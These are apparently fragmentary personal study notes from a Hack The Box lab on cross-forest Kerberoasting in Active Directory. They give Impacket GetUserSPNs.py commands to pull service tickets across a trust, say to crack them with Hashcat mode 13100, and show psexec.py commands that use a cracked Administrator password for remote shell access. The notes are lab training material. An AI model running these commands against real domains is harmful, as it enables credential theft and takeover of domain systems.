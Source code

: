 

`GetUserSPNs.py` from our Linux attack host. To do this, we need credentials for a user that can authenticate into the other domain and specify the `-target-domain` flag in our command. Performing this against the `FREIGHTLOGISTICS.LOCAL` domain, we see one SPN entry for the `mssqlsvc` account.

## Cross-Forest Kerberoasting
```bash
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```


Rerunning the command with the `-request` flag added gives us the TGS ticket. We could also add `-outputfile <OUTPUT FILE>` to output directly into a file that we could then turn around and run Hashcat against.


#### Using the -request Flag
```bash
AhmaDb0x@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  
```
`13100`

We could then attempt to crack this offline using Hashcat with mode `13100`. If successful, we'd be able to authenticate into the `FREIGHTLOGISTICS.LOCAL` domain as a Domain Admin. If we are successful with this type of attack during a real-world assessment, it would also be worth checking to see if this account exists in our current domain and if it suffers from password re-use. This could be a quick win for us if we have not yet been able to escalate in our current domain

```
Suppose we can Kerberoast across a trust and have run out of options in the current domain. In that case, it could also be worth attempting a single password spray with the cracked password, as there is a possibility that it could be used for other service accounts if the same admins are in charge of both domains. Here, we have yet another example of iterative testing and leaving no stone unturned
```

pabloPICASSO <> sapsso
ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL


AhmaDb0x@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

```bash
psexec.py FREIGHTLOGISTICS.LOCAL/Administrator:pabloPICASSO@ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
```
## Hunting Foreign Group Membership with Bloodhound-python




